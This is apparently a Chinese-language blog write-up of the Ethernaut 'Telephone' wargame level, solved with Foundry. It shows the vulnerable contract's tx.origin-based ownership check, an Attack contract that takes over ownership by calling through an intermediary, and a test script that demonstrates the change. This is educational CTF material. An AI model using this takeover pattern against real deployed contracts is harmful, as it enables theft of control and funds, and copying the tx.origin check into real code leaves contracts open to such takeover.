


# Foundry 通关 Ethernaut（3）— Telephone

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

获取合约控制权

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor：** 设置合约的 owner 为合约部署者
2. **changeOwner** : 当函数当前调用者（msg.sender）与原始调用者 (tx.origin) 不同时，函数更新 owner 值为函数输入参数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

## 思路

在合约中，满足条件后，changeOwner 函数能更新合约的 owner 值，因此，我们想办法满足这个**函数当前调用者与原始调用者不同**的的条件

evm 中，只有 EOA 能主动发起交易，所以，所有合约的 tx.origin 都是 EOA 账户，而对于 ，msg.sender 来说，如果是通过合约A来调用合约B的函数，那么 对于这个函数来说，msg.sender 将会是合约A 的地址



因此，这里，我们可以在另一个合约中去调用 changeOwner 就能实现对与这个函数来说，函数当前调用者（msg.sender）与原始调用者 (tx.origin) 不同

## foundry 复现

### 1. 攻击合约

```solidity
contract Attack {
    Telephone public telephone;

    constructor(address _address) {
        telephone = Telephone(_address);
    }

    function attack() public returns (address) {
        // 使用合约变量调用另一个合约的函数
        telephone.changeOwner(tx.origin);
        return tx.origin;
    }
}
```

### 2. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {Telephone,Attack} from "../src/Telephone.sol";

contract TelephoneTest is Test {
    Telephone public telephone;
    Attack public attackContract;

    function setUp() external {
        telephone = new Telephone();
        attackContract = new Attack(address(telephone));
    }

    function test_attack() public {
        console.log("before",telephone.owner());
        attackContract.attack();
        console.log("after",telephone.owner());
    }
}
```

这里很简单，逻辑写在攻击合约中，调用函数即可

### 3. 测试

终端输入

```solidity
forge test --match-path test/Telephone.t.sol -vvvv
```



打印可以看到，合约的 owner 改变